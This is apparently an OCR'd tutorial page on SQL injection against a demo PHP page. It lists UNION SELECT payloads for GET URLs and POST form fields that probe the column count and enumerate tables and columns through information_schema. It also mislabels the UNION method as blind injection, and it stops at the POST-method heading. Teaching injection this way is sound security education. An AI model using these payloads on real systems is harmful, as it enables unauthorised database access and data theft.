 The backend PHP code utilized will dictate both what query is executed, as well as how the
resulting data from the database is displayed to the user. Enumeration of the database is **key** to
determinining what information will create a valid SQL query.

**Key Items To Identify** :

- Database Structure
    ◦ Databases
    ◦ Tables
    ◦ Fields

**Other Helpful Information** :

- Database Version
- Data within the Databases

## Blind SQL Injection:  

Occurs when an attacker sends TRUE/FALSE statements to determine how the database is
configured.

```
<URL>/uniondemo.php?Selection=2 Union SELECT 1,2 <!-- GET METHOD, enter in the URL
-->
Audi' UNION SELECT 1,2,3,4 # <!-- POST METHOD, enter in the Input
Field -->
```
The above syntax inserts a SQL query at the end of URL query string (GET), OR input field (POST) to
determine schema (structure) of the table, by incrementing by one more field (5,6,7,etc.) until
results, or an error, are displayed. This provides an attacker more information about how may
fields are configured in the query.

### TIP

```
Knowing the schema can allow an attacker to create detailed queries, to determine
database, table, and field names. Example syntax for determining which tables exist
within a database are listed below.
```

GET Method (URL)

```
<URL>/uniondemo.php?Selection=2 UNION SELECT 1,table_name,3 FROM
information_schema.tables
<URL>/uniondemo.php?Selection=2 UNION SELECT 1,table_schema,table_name FROM
information_schema.tables
<URL>/uniondemo.php?Selection=2 UNION SELECT table_name,1,column_name FROM
information_schema.columns
<URL>/uniondemo.php?Selection=2 UNION SELECT table_schema,column_name,table_name FROM
information_schema.columns
<URL>/uniondemo.php?Selection=2 UNION SELECT null,name,color FROM car
```
POST Method (Form Input):
